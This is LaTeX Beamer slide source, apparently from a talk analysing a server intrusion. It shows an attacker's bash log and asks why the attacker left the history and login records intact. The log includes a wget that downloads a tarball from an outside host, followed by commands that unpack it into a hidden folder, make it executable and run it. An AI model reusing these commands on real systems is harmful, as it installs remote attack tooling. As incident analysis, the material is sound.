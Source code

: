 \documentclass[xcolor=x11names,compress]{beamer}
\begin{document}

\begin{frame}[fragile=singleslide]\frametitle{Bash Log}
\begin{verbatim}
w
ls
passwd
ifconfig
cat /proc/cpuinfo
wget http://descargarcs.net63.net/fv/ghh.tgz
tar -zxf ghh.tgz
rm -rf ghh.tgz
chmod +x *
cd .vogz
chmod +x *
screen
\end{verbatim}
\end{frame}


\begin{frame}[fragile=singleslide]\frametitle{Curiosities}
\begin{itemize}
    \item Why not delete the bash history?
    \vspace{10pt}
    \item Why not delete login entries from the log?
    \vspace{10pt}
    \item Why change the password?
\end{itemize}
\end{frame}


\subsection{Files}
\end{document}
